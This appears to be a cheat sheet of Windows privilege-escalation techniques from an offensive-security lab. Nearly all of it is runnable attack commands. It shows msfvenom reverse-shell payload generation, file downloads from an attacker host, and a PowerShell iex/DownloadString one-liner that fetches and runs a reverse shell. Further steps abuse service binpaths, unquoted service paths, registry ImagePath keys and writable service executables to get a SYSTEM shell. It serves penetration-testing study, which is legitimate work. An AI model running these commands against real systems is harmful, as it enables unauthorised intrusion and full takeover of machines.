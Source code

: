 
## Powershell for all steps of Offensive Security
- https://github.com/samratashok/nishang

## Upload file to target
- `sudo python -m http.server 80`
- `powershell -c (New-Object System.Net.WebClient).DownloadFile('http://10.9.222.201:80/winPEAS.exe','C:\Users\bill\Desktop\winPEAS.exe')`

## Windows Privesc
- examples work on Windows 10

### Generate reverse shell
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe`
- start SMB server: `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
- download in Windows PC: `copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe`
- start listener and execute shell with: `C:\PrivEsc\reverse.exe`

#### Powershell reverse shell
- powershell reverse shell: https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
- download and run with: `powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`

### Insecure Service Permissions
- Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:`C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`
- query the serivce: `sc qc daclsvc` (runs as system)
- change the binpath: `sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`
- run shell as system: `net start daclsvc`

### Unquoted service
- check if unquoted service runs as SYSTEM: `sc qc unquotedsvc`
- check who is allowed to write to the service path: `C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" `
- cope the shell and rename: `copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`
- run service: `net start unquotedsvc`

### Weak registry permissions
- query registry service to see if it runs as system: `sc qc regsvc`
- check who is able to write the registry entry: `C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`
- overwrite ImagePath registry key to reverse shell: `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`
- start service: `net start regsvc`

### Insecure service executables
- `sc qc filepermsvc`
- check who can write binary path name: `C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`
- replace service with reverse shell: `copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`
- `net start filepermsvc`
